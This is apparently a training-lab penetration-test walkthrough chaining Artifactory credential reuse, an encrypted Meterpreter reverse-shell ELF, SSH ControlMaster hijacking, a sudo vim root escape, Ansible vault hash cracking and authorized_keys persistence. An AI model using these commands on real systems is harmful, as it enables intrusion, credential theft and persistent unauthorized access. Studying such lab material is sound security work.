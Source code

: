 # Penetration Test Enumeration & Exploitation Guide

## Enumeration

**Directory Enumeration**

- Identified `upload.html` during directory enumeration.

## Payload Generation

**Generate Payload with msfvenom:**

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f elf --encrypt xor --encrypt-key 'CHANGEMYKEY' prependfork=true -t 300 -o test.elf
```

## File Enumeration

**User Files:**

```bash
Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  18    fil   2019-11-08 11:21:40 -0500  .bash_logout
100644/rw-r--r--  141   fil   2019-11-08 11:21:40 -0500  .bash_profile
100644/rw-r--r--  312   fil   2019-11-08 11:21:40 -0500  .bashrc
100644/rw-r--r--  33    fil   2025-03-12 17:44:12 -0400  local.txt
100644/rw-r--r--  23    fil   2020-08-20 11:34:43 -0400  repo.txt
```

- Contents of `repo.txt`:

```bash
walleyedev
photofinish
```

## Exploiting Artifactory

- Navigate to `192.168.151.173`.
- Log in with credentials:
    - Username: `walleyedev`
    - Password: `photofinish`

![[Pasted image 20250312163001.png]]

**File Upload via JFrog Artifactory:**

```bash
curl -u walleyedev:photofinish -T /home/kali/osep/challenge_3/test3.elf "http://192.168.151.173:8081/artifactory/generic-local/test3.elf"
```

![[Pasted image 20250312163027.png]]

- Start Meterpreter shell with option `fix checksums` to gain shell as user `nottodd` on `192.168.151.172`.

![[Pasted image 20250312164605.png]]

## SSH Access via Hijacking

- Monitor `.ssh/controlmaster` directory:

```bash
watch -n 1 ls -la
```

- Quickly connect using intercepted SSH session:

```bash
ssh marks@cb3
```

- Confirm access and retrieve private key (`id_rsa`): use head/cat to get the full key

```bash
head -n 20 id_rsa
```

```bash
cat is_rsa
```
## Privilege Escalation

- Identify authorized SSH keys:

```bash
meterpreter > cat authorized_keys
```

- Confirm key association (Mark → nottodd).

**SSH access to Todd:**

```bash
ssh -i id_rsa todd@192.168.193.172
```

## Privilege Escalation on `cb2`

- Verify sudo privileges for Todd:

```bash
sudo -l
(root) NOPASSWD: /usr/bin/vim /opt/tpsreports.txt
```

- Exploit Vim to escalate privileges:

```bash
sudo /usr/bin/vim /opt/tpsreports.txt
```

- Within Vim, escalate to root shell:

```vim
:!/bin/sh
# whoami
root
```

## Ansible Vault Decryption

- Enumerate Ansible configuration and decrypt credentials:

```bash
cat webserver.yaml
ansible2john test1.txt > cred1.hash
```

- Crack hash using Hashcat:

```bash
hashcat -m 16900 -O -a 0 -w 4 cred_fixed.hash /usr/share/wordlists/rockyou.txt
```

- Password discovered:

```
bowwow
```

- Decrypt Ansible vault:

```bash
ansible-vault decrypt
Password: lifeintheantfarm
```

## Escalation to Root on `.171`

- SSH into `ansibleadm`:

```bash
ssh -i id_rsa ansibleadm@192.168.193.171
```

- Switch to root:

```bash
su root
Password: bowwow
```

## Final Enumeration & Privilege Maintenance

- Use `pspy` for process monitoring on `173`:

```bash
./pspy
```

- Transfer and execute tools (e.g., `pspy`):

```bash
wget --user todd --password whyaretheresomanyants http://cb3:8082/artifactory/generic-local/pspy >> /home/marks/pspy
```

## SSH Key Generation for Persistent Access

- Generate SSH keys and append the public key to authorized keys:

```bash
ssh-keygen -t rsa -b 4096 -C "173"
echo "<PUBLIC_KEY>" >> ~/.ssh/authorized_keys
```

- Test new SSH connection:

```bash
ssh -i id_rsa1 marks@192.168.193.173
```

## Privilege Escalation via Scheduled Task

- Identify privileged commands:

```bash
2025/03/13 17:10:02 CMD: UID=1002 PID=20132 | bash -i -c source /home/marks/.bashrc; echo "nothingwaschangedargh" | sudo -S netstat -ap > /tmp/mark_listening.txt
```

- Execute command to escalate privileges:

```bash
sudo -S su root
Password: nothingwaschangedargh
```

---

### Final Steps

Root privileges were obtained successfully across multiple hosts through enumeration, exploitation, SSH key manipulation, and leveraging insecure configurations.